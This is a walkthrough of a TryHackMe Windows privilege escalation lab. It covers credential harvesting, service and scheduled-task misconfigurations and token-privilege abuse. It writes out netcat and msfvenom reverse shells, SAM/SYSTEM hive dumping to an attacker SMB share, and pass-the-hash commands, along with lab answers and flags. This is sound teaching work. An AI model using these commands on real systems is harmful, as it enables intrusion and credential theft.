# 🪟 Fundamentals of Windows privilege escalation techniques

During penetration tests, we will often come across Windows hosts with unprivileged user. Unprivileged users have no power to execute administrative tasks on the machine, effectively preventing us from having complete control over the host.

For the purpose of this write-up, I will use TryHackMe’s _Windows Privilege Escalation_ room.

## 🚀 Windows Privilege Escalation

Privilege escalation refers to a situation in which access is granted to a host as a low-privileged user (“user A”) and trying to gain access to other, more privileged user by abusing vulnerabilities in the host's system.

Gaining elevated access may not necessarily be easy. We could find on users account left unsecured spreadsheets, notes or other files consisting of credentials. Other methods involve abusing the system by targeting the following weaknesses:

* Misconfigurations on Windows services or scheduled tasks
* Excessive privileges assigned to our account
* Vulnerable software
* Missing Windows security patches

Here is quick review of Windows account types.

Type | Description
--------- | ----------
 Administrators | This is the highest-privileged account. This user can change any system parameter and have access to any file on the host.
 Standard Users | This user has limited rights. Typically standard user cannot change essential system settings and is typically limited to the user’s own files
 SYSTEM/LocalSystem | One of the built-in accounts. It has full access to all files and resources. It has even higher privileges than administrators.
 Local Service | Account used to run Windows services with "minimum" privileges. It uses anonymous connections over the network.
 Network Service | As account above but is uses credentials to authenticate through network.

 The last three are managed by Windows so we won't be able to use them, but it is still possible to gain privileges through exploiting specific services.

## 🗂️ Harvesting Passwords from Usual Spots

 It is the easiest way to gain access to another users. We can find credentials left by users in plaintext files or stored by software like email clients or browser password managers.

### 🛠️ Unattended Windows Installations

IT administrators when facing task of installing software to multiple users may use Windows Deployment Services. These kinds of installations are referred to an unattended installations. This installations require an administrator account and those credentials can be left behind in the following locations:

* C:\Unattend.xml
* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Unattend\Unattend.xml
* C:\Windows\system32\sysprep.inf
* C:\Windows\system32\sysprep\sysprep.xml

### 📜 Powershell History

When user runs a command in Powershell, it is stored into file that keeps command history. If user runs a command that includes a password it can be retrieved by using simple `cmd` command: `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

**NOTE:** In Powershell we need to switch from `%userprofile%` to `$Env:userprofile`.

### 🔐 Saved Windows Credentials

We can view stored credentials by running `cmdkey /list`. This won't show us passwords. But it can lead to possibility of switching to other account by executing i.e. `runas /savecred /user:admin cmd.exe`

In our lab we can see that we have saved credentials for `mike.katz` account (initially we got access to `thm-unpriv`).



### 🌐 ISS Configuration

Internet Information Services (IIS) is a flexible, secure, and manageable web server software developed by Microsoft for Windows operating systems. Its configurations is stored in a file `web.config` and can include password for databases or other authentication mechanisms. Config file can be found in one of those paths:

* C:\inetpub\wwwroot\web.config
* C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

We can run a shot command to find database connection strings on the config.

`type C:\inetpub\wwwroot\web.config | findstr connectionString`

### 🧩 Retrieve Credentials from Software: PuTTY

PuTTY is a popular free terminal emulator for Windows that allows users to connect to remote servers via protocols like SSH, Telnet, and SCP for network administration. PuTTY will store proxy configurations that contains authentications credentials in cleartext. We cen search for it by running Windows Registry querry: `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

Many other software stores passwords and we can find methods to recover them.

### ❓ Q&A Section

#### 🔑 Q: A password for the julia.jones user has been left on the Powershell history. What is the password?

Running `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` reveals Julia's pass.



**Answer:** ZuperCkretPa5z

#### 🗄️ Q: A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?

Quite straightforward, just execute `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`



**Answer:** 098n0x35skjD3

#### 🧑‍💼 Q: There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.

We already know that his credentials are saved on the host. So `runas /savecred /user:mike.katz cmd.exe` will spawn `cmd.exe` as Mike.



**Answer:** THM{WHAT_IS_MY_PASSWORD}

#### 🧠 Q: Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?

Run `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`



**Answer:** CoolPass2021

## ⚡ Other Quick Wins

If non of the previously discussed methods works, we can try these.

### ⏰ Scheduled Tasks

In scheduled tasks on target host, we could find a task which binary was lost or is using one that we can edit to our leverage.
We can run `schtasks` to see all task within the host. but if we want more details about a specific task we can modify command to `schtask /query /tn vulntask /fo list /v`



The important parameter for us is the _"Task to Run"_, so we know if we can edit this binary. Equally important is _"Run As User"_ which shows the user that wil be used to run this task. We can also check if our user can modify or overwrite executable by running `icacls`. In our example it would be `icacls c:\tasks\schtask.bat`



In the result, the **BULTIN\Users** group has (F)ull access to the binary. We can insert any payload into it. In our lab we will be using `nc64.exe`. Lets modify it `echo c:\tools\nc64.exe -e cmd.exe 10.49.87.227 4444 > c:\tasks\schtask.bat`

In real life scenario we would neet to wait for the task to run, since probably we wouldn't have right to run it manually.
Following the exercise we need to listen for any connection on the attacking machine. After task finishes, we gain access.



### 📦 AlwaysInstallElevated

The Windows installer files (*.msi) usually run with users level of privilege, but it can be configured to run with higher privileges. This could potentially allow us to make a malicious MSI file that would run as admin.

This requires registry values to be set. We can query these using `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer` and `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`.

Both of them need to be set, otherwise this exploit would not be possible. If we are good to go, we can use `msfvenom`

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

We need to transfer it to the host and run with the command `msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

#### 🚩 Q: What is the taskusr1 flag?

After gaining access through reverse shell in the Scheduled Tasks section, we simply need to check the file content



**Answer:** THM{TASK_COMPLETED}

## 🛠️ Abusing Service Misconfigurations 

### 🔄 Windows Services

Windows services are managed by **Service Control Manager** which is in charge of managing the state of services. Every service that runs on a Windows machine has an associated binary. This binary is executed by the **SCM**. Services also specify the user account under which this service wil run. To check service configuration we can run `sc qc`. Let's check apphostsvc service.



There are two fields of utmost interest for us. **BINARY_PATH_NAME**- that is the executable and **SERVICE_START_NAME** that show the account used to run the service.

Services also have a **Discretionary Access Control List**. This indicates who has permissions to manage service in many ways such as permission to start, stop, pause, reconfigure, and so on. Services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\` and if **DACL** has been configured it would be visible in a subkey **Security**.

### 🧱 Insecure Permissions on Service Executable

If binary associated with a service does not have strong permissions that could lead to modification or replacement of the executable by attacker. Let's look on our lab machine.

We identified service called **WindowsScheduler**



Now we know, it is run by **svcuser1** and executable is located in `C:\Progra~2\System~1\WService.exe`

Let's see are we permitted to modify it.



It is time to generate a malicious file and put it on the machine.



On the target machine we download it.



Now we need to swap existing executable to our reverse shell.



Since this service is run by other user, we need to grant permissions to this account.



Now we need to restart this service.



Finally we have access as **svcuser1**.



### ❌ Unquoted Service Paths

If we can't write into service there might be a change to force service into running executables by using quirky feature.

Usually under **BINARY_PATH_NAME** we get full quoted path with some parameters, for example `"C:\Program Files\RealVNC\VNC Server\vncserver.exe" - service`

In the example below this path is not quoted.



SCM when trying to execute this service is treating everything separated with `space` as next argument. In the result it looks like this

Command | Arguments
--- | --- 
C:\MyPrograms\Disk.exe | Sorter Enterprise\bin\disksrs.exe
C:\MyPrograms\Disk Sorter.exe | Enterprise\bin\disksrs.exe
C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe

If we place a malicious payload into `Disk.exe` and move it to `C:\MyPrograms\` then SCM will run it.
I created reverse shell and mored it to services directory and added permissions.



After granting permissions to file and restarting service we get access as **svcusr2**



### 🔓 Insecure Service Permissions

If DACL is well configured and the binary's path correctly quoted we can check **DACL** service. There may be a slight chance to exploit it.
To check for a service DACL from the command line, we can use Accesschk from the Sysinternals suite.



We can clearly see that service is misconfigured and **BUILTIN\Users** have **SERVICE_ALL_ACCESS** which means that any user can reconfigure the service.

Next steps are creating payload, downloading onto the host, adding permissions and just before restarting this service we need to swap binary path, to our payload and setting user to system by executing `sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`



We restart the service and finally got the admin access.



### ❓ Q&A section

After gaining access, we are asked to retrieve flags for each user.

#### 🖥️ Get the flag on svcusr1's desktop.



**Answer:** THM{AT_YOUR_SERVICE}

#### 🖥️ Get the flag on svcusr2's desktop.



**Answer:** THM{QUOTES_EVERYWHERE}

#### 👑 Get the flag on the Administrator's desktop.



**Answer:** THM{INCSECURE_SVC_CONFIG} 

## ⚠️ Abusing dangerous privileges

### 🪟 Windows Privileges

Privileges are rights set on an account that allow a user to perform specific system-related tasks. We can check user privileges in the command line with `whoami /priv`



We can find a full list of available privileges on Windows on the [Microsoft.com](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) website. In pentesting, we are interested only in those privileges, that allow escalation. A list of exploitable privileges can be found in the [Priv2Admin](https://github.com/gtworek/Priv2Admin) GitHub project.

### 🔐 SeBackup / SeRestore

The two privileges mentioned on the header allow users to read and write to any file on the host and ignore any Discretionary Access Control List. Legitimate use of this privilege is to allow users to backup and restore system without admin privileges.

The exploit method is pretty straightforward. We need to backup SAM and SYSTEM hashes and then extract local Administrator's password hash.

In the lab, we have access to an account that is part of the "Backup Operators" group, so those privileges are enabled.



Now we backup SAM and SYSTEM hashes by using following commands:
`reg save hklm\system C:\Users\THMBackup\system.hive` and `reg save hklm\sam C:\Users\THMBackup\sam.hive`

Now we can copy our hives to the attacker machine. We will use SMB for this

On the attacking machine:

`mkdir share`

`python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share`

On the host:

`copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\`

`copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\`

Finally we can work on the files. First let's retrieve password hashes with help of the impacket.

`python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`



All that remains is to perform a Pass-the-Hash attack and we're in.

`python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 Administrator@10.48.139.22`



### 👑 SeTakeOwnership

This is an advanced privilege that allows a user to gain ownership over any Windows object, such as file, folder, process or registry key. Even if the user does not have direct access rights.

We can abuse `utilman.exe` to escalate. It is Ease of Access Center, formerly know as Utility Manager, and its basic function is to enable assistive technologies in Windows systems. It is worth to mention that Utilman runs with SYSTEM privileges.

We need to take ownership by executing `takeown /f C:\Windows\System32\Utilman.exe` and granting us full privilege over the file by `icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`

Then we simply swap this file for `cmd.exe`. Now if we lock our screen by pressing **Win+l** (Windows key and the letter "l" key) and click on the "Ease of Access" button, we will have command prompt with SYSTEM privileges.



### 🎭 SeImpersonate / SeAssignPrimaryToken

These privileges allow a process to impersonate and act as other users. Impersonation usually consists of being able to spawn a process under the security context of another user.

We are given understanding of this process on the example of how FTP server works. The FTP server restricts users to access the files they are allowed to see. If our FTP service runs as `ftp` user, then without impersonation, if let's say user John logs into the FTP and is trying to access his files, the FTP will try access resources using its own access token rather than John's.



Using ftp's token isn't the best practice. In this example FTP service would be able to access John's file, but not Lydia's due to DACL setting that restrict anyone besides Lydia from accessing her files. This scenario forces manual configuration of specific permissions to each file and directory. On top of that all operation system files are accessed by user `ftp`, independent of which user is logged in to the FTP service, therefore it is impossible to delegate authorization to the operating system. If FTP service were compromised, the perpetrator will gain access to all of the folders, to which the `ftp` user has access.

In the other case, th FTP service's user has the SeImpersonate or SeAssignPrimaryToken privilege, then this process is simplified. The FTP service will temporarily take access token of the user who is logging, and will perform tasks on his behalf:



If it is done this way, the operating system will impersonate John and won't be able to access Bob's or Lydia's file. Thanks to that, we do not need to provide access to user `ftp`. But if some bad actor was able to take control over a process with SeImpersonate or SeAssignPrimaryToken privileges then he can impersonate any user connecting to that process.

In Microsoft Windows systems both **LOCAL SERVICE** and **NETWORK SERVICE** accounts have such privileges which is justified due to their specificity. The **Internet Information Services** (IIS) also create similar account named "iis apppool\defaultapppool" for web applications.

Elevating privileges on such accounts is a two-step task.

First we need to spawn a process to which users can connect and authenticate to it for the impersonation to occur. Secondly we need to force user to use our malicious process.

In our lab example we'll be using RogueWinRM to cover both of the steps.
We already have access to compromised website, so we can check what privileges are assigned to our host.



Compromised machine has already uploaded the RogueWinRM exploit. The RogueWinRM exploit automatically establishes connection to port 5985 using SYSTEM privileges every time when any user, even unprivileged starts BITS service in Windows. Port 5985 is usually used for the WinRM service and that in a matter of fact exposes remote Powershell console via network.

If the server has not got WinRM service running, we can start fake WinRM service on 5985 port and wait to fetch authentication attempt made by the BITS service. If we have SeImpersonate privileges, we can execute any command of the SYSTEM user.

We need to set netcat listener on our end and then use web shell to trigger RogueWinRM exploit with the following command:

`c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP ATTACKER_PORT"`

Before showing any results, let's try to breakdown this command. The `-p` parameter specifies the executable to be run, which in our case is `nc64.exe`. The `-a` parameter is used, so we can pass arguments, to the executable. Then we use `-e` switch to specify program to be run. We chose `cmd.exe` 



We got process up and running. The result of our action is clearly visible on the attacking machine.



#### 🚩 Get the flag on the Administrator's desktop.

Since we have SYSTEM privilege it is quite straightforward.



**The flag is:** THM{SEFLAGPRIVILEGE}

## 🧩 Abusing vulnerable software

### 🛠️ Unpatched Software

Often the software installed on hosts machine can be a vector for privilege escalation due to lack of update policy or less frequency that updating the system. On Microsoft Windows we can use tool called `wmic` to list software installed on target systems including its versions. 

The `wmic product` may not return all of the installed programs. It strongly depends on the way it was installed. You can always check desktop shortcuts, services or any other trace for additional software that could be a potential target.



After we get the results, we can search online for known exploits on the installed software on services like [exploit-db](https://www.exploit-db.com/), [Packet Storm](https://packetstorm.news/) or many others. We can also just ask old uncle Google.

